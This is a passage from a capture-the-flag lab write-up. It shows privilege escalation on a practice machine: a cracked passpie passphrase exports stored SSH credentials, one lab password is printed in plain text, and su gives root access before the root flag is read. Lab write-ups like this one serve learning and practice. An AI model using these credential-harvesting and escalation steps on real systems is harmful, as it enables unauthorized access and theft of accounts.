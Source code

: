Then, after getting passie password manager's password, I tried to export the file by entering the recently cracked password.

```
jnelson@meta2:~/.passpie$ cd ..
jnelson@meta2:~$ ls
linpeas.sh  pass  user.txt
jnelson@meta2:~$ ls -la
total 848
drwxr-xr-x 5 jnelson jnelson   4096 Feb 14 19:56 .
drwxr-xr-x 3 root    root      4096 Oct  5 15:12 ..
lrwxrwxrwx 1 root    root         9 Jun 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 jnelson jnelson    220 Jun 26  2022 .bash_logout
-rw-r--r-- 1 jnelson jnelson   3526 Jun 26  2022 .bashrc
drwx------ 3 jnelson jnelson   4096 Feb 14 19:48 .gnupg
-rwxr-xr-x 1 jnelson jnelson 825665 Sep  4 05:54 linpeas.sh
drwxr-xr-x 3 jnelson jnelson   4096 Oct 25 12:51 .local
-rw-r--r-- 1 jnelson jnelson    347 Feb 14 19:56 pass
dr-xr-x--- 3 jnelson jnelson   4096 Oct 25 12:52 .passpie
-rw-r--r-- 1 jnelson jnelson    807 Jun 26  2022 .profile
-rw-r----- 1 root    jnelson     33 Feb 14 17:37 user.txt
jnelson@meta2:~$ passpie export output.txt
Passphrase: 
jnelson@meta2:~$ ls
linpeas.sh  output.txt  pass  user.txt
jnelson@meta2:~$ cat output.txt
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode '[REDACTED]'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```

Here, I got the root's password and I was able to login as a root user.

```
jnelson@meta2:~$ su root
Password: 
root@meta2:/home/jnelson# whoami
root
```


Grabbing the root flag.

```
root@meta2:/home/jnelson# cat /root/root.txt
[REDACTED]
```
